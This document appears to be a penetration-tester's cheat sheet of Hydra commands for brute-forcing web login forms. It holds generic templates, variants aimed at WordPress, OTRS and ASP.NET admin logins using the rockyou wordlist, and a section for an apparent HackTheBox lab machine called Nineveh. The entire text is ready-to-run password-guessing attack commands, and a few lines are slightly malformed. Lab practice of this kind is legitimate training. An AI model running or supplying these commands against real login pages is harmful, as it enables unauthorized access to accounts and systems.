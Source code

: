 ```
hydra -L <user file> -P <password file> <target ip> http-post-form "/<url>:<parameter>=<parameter value>:"<failure text"
```

```
hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/admin.php:username=^USER^&password=^PASS^:login_error"
hydra <RHOST> -l <USERNAME> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/index.php:username=user&password=^PASS^:Login failed. Invalid"
hydra <RHOST> -L /PATH/TO/WORDLIST/<FILE> -P /PATH/TO/WORDLIST/<FILE> http-post-form "/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s <RPORT>
hydra <RHOST> -l root@localhost -P otrs-cewl.txt http-form-post "/otrs/index.pl:Action=Login&RequestedURL=Action=Admin&User=root@localhost&Password=^PASS^:Login failed" -vV -f
hydra <RHOST> -l admin -P /PATH/TO/WORDLIST/<FILE> http-post-form "/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=COOKIE_1&__EVENTVALIDATION=COOKIE_2&UserName=^USER^&Password=^PASS^&LoginButton=Log+in:Login failed"
```

hydra http://wordpress.local/wp-login.php -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordpress.local%2Fwp-admin%2F&testcookie:1:Error: The password you entered for the username admin is incorrect."

redirect_to: http://wordpress.local/wp-admin/

hydra wordpress.local -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fwordpress.local%2Fwp-admin%2F&testcookie=1:The password you entered for the username admin is incorrect."

### Nineveh
```
hydra -l "admin" 10.129.232.81 -P /usr/share/wordlists/rockyou.txt http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid"
hydra -l user 10.129.232.81 -P /usr/share/wordlists/rockyou.txt https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+in&proc_login=true:Incorrect password"

```

